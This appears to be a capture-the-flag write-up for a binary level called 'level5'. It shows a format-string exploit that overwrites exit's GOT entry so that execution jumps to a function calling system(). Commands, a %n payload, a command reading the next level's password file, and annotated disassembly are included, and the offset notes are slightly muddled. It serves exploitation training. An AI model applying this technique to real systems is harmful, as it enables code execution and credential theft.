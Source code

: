 - attack: format string exploitation using Global Offset Table
- binary behavior: fgets argument and send it to printf
- targeted functions: n, o and main
- vulnerability in n: printf() without argument (Bugs section in printf man)
- vulnerability in o: no ASLR (address space layout realisation)
- defense1: fget
- defense2: function o with system call is non-called

Method:
- find the address of exit call in n
- find the address of o function
- find the exit call position 
- write o function address instead of exit address through argument buffer
 
Info:
- positon of exit function (buffer) in stack - 4
- 08049838 - address of exit function
- same in hex - \x38\x98\x04\x08

- 080484a4 - address of o function
- 134513828 - same in decimal

- offset code structure: 134513828 = 134513824 (o address) - 4 (buffer address)


Code:
objdump -d ./level5 # get the o function address
objdump -R level5 | grep exit # get the exit address
(python -c 'print "0000" + " %p" * 4'; cat) | ./level5
python -c 'print "\x38\x98\x04\x08" + "%134513824u" + "%4$n"' > /tmp/ex ;  cat /tmp/ex - | ./level5
cat /home/user/level6/.pass

QA:
- why we can rewrite exit function
- <exit@plt> from n calls real 'exit' address from GOT. GOT keeps addresses of libc library. We can change the value inside GOT by the new address

Functions

08048504 <main>:
 8048504:       55                      push   %ebp
 8048505:       89 e5                   mov    %esp,%ebp
 8048507:       83 e4 f0                and    $0xfffffff0,%esp
 804850a:       e8 b3 ff ff ff          call   80484c2 <n>
 804850f:       c9                      leave
 8048510:       c3                      ret

080484c2 <n>:
 80484c2:       55                      push   %ebp
 80484c3:       89 e5                   mov    %esp,%ebp
 80484c5:       81 ec 18 02 00 00       sub    $0x218,%esp
 80484cb:       a1 48 98 04 08          mov    0x8049848,%eax
 80484d0:       89 44 24 08             mov    %eax,0x8(%esp)
 80484d4:       c7 44 24 04 00 02 00    movl   $0x200,0x4(%esp)
 80484db:       00
 80484dc:       8d 85 f8 fd ff ff       lea    -0x208(%ebp),%eax
 80484e2:       89 04 24                mov    %eax,(%esp)
 80484e5:       e8 b6 fe ff ff          call   80483a0 <fgets@plt> # defence
 80484ea:       8d 85 f8 fd ff ff       lea    -0x208(%ebp),%eax
 80484f0:       89 04 24                mov    %eax,(%esp)
 80484f3:       e8 88 fe ff ff          call   8048380 <printf@plt> # exploit
 80484f8:       c7 04 24 01 00 00 00    movl   $0x1,(%esp)
 80484ff:       e8 cc fe ff ff          call   80483d0 <exit@plt> # exploit

 080484a4 <o>:
 80484a4:       55                      push   %ebp
 80484a5:       89 e5                   mov    %esp,%ebp
 80484a7:       83 ec 18                sub    $0x18,%esp
 80484aa:       c7 04 24 f0 85 04 08    movl   $0x80485f0,(%esp)
 80484b1:       e8 fa fe ff ff          call   80483b0 <system@plt> # exploit 
 80484b6:       c7 04 24 01 00 00 00    movl   $0x1,(%esp)
 80484bd:       e8 ce fe ff ff          call   8048390 <_exit@plt>

 080483d0 <exit@plt>:
 80483d0:       ff 25 38 98 04 08       jmp    *0x8049838 # exploit
 80483d6:       68 28 00 00 00          push   $0x28
 80483db:       e9 90 ff ff ff          jmp    8048370 <_init+0x3c>